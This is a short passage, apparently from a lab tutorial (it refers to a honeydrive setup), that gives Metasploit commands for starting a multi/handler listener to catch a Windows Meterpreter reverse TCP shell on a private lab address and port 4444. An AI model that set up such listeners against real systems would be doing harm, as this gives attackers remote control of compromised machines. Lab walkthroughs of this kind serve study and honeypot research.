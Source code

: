 Start the Listener : In Metasploit, set up a listener to catch the incoming connection from the payload:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.0.2.5
set LPORT 4444
exploit
```

<div style="text-align:center"><img src="/images/honeydrive/67.png" /></div><br>

<div style="text-align:center"><img src="/images/honeydrive/68.png" /></div><br>
